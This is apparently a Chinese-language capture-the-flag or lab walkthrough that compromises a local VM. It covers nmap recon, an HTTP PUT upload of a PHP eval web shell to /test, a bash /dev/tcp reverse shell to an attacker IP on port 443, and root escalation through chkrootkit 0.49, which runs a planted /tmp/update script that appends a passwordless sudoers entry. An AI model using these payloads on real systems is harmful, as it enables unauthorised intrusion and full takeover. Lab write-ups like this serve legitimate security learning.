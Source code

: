 ### Port Scan

```bash
# Nmap 7.94SVN scan initiated Sat Nov  9 09:41:09 2024 as: nmap -sT --min-rate 5000 -p- -oN nmap_results/port_scan 192.168.27.5
Nmap scan report for 192.168.27.5
Host is up (0.00084s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:75:44:54 (VMware)
```

```bash
# Nmap 7.94SVN scan initiated Sat Nov  9 09:43:06 2024 as: nmap -sT -sV -sC -O -p22,80 -oN nmap_results/detils_scan 192.168.27.5
Nmap scan report for 192.168.27.5
Host is up (0.00084s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: lighttpd/1.4.28
MAC Address: 00:0C:29:75:44:54 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (93%), Linux 3.16 - 4.6 (93%), Linux 3.2 - 4.9 (93%), Linux 4.4 (93%), Linux 3.13 (90%), Linux 3.18 (89%), Linux 4.2 (89%), Linux 3.16 (87%), OpenWrt Chaos Calmer 15.05 (Linux 3.18) or Designated Driver (Linux 4.1 or 4.4) (87%), Linux 4.10 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
nmap --script=vuln -p80 -oN nmap_results/script_scan 192.168.27.5
```

```bash
nikto -h http://192.168.27.5
```

![image-20241110141501506](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241110141501506.png)

有个`test`目录

### Web

test目录下支持`put`方法

```http
PUT /test/shell.php HTTP/1.1
Host: 192.168.27.5
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

<?php eval($_POST[1]);
```

```bash
/bin/bash -i >& /dev/tcp/192.168.27.3/443 0>&1
```

端口443可以接收到shell

### Privilege Escalation

```bash
www-data@ubuntu:/tmp$ ls -lah /etc/cron*
ls -lah /etc/cron*
-rw-r--r-- 1 root root  722 Jun 19  2012 /etc/crontab

ls: cannot open directory /etc/cron.d: Permission denied
/etc/cron.daily:
total 72K
drwxr-xr-x  2 root root 4.0K Apr 12  2016 .
drwxr-xr-x 84 root root 4.0K Nov  9 15:53 ..
-rw-r--r--  1 root root  102 Jun 19  2012 .placeholder
-rwxr-xr-x  1 root root  16K Nov 15  2013 apt
-rwxr-xr-x  1 root root  314 Apr 18  2013 aptitude
-rwxr-xr-x  1 root root  502 Mar 31  2012 bsdmainutils
-rwxr-xr-x  1 root root 2.0K Jun  4  2014 chkrootkit
-rwxr-xr-x  1 root root  256 Oct 14  2013 dpkg
-rwxr-xr-x  1 root root  338 Dec 20  2011 lighttpd
-rwxr-xr-x  1 root root  372 Oct  4  2011 logrotate
```

定时任务中，有`chkrootkit`

```bash
www-data@ubuntu:/tmp$ chkrootkit -V
chkrootkit -V
chkrootkit version 0.49
```

![image-20241110142942537](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241110142942537.png)

有一个提权漏洞

> 在/tmp目录下，创建一个update文件，作为定时任务的chkrootkit会运行update文件（以root身份）
>
> 将sudo权限给www-data即可

```bash
www-data@ubuntu:/tmp$ echo 'echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers' > update
 updatecho "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers' > 
www-data@ubuntu:/tmp$ cat update
cat update
echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers
```

然后`sudo bash`拿到root
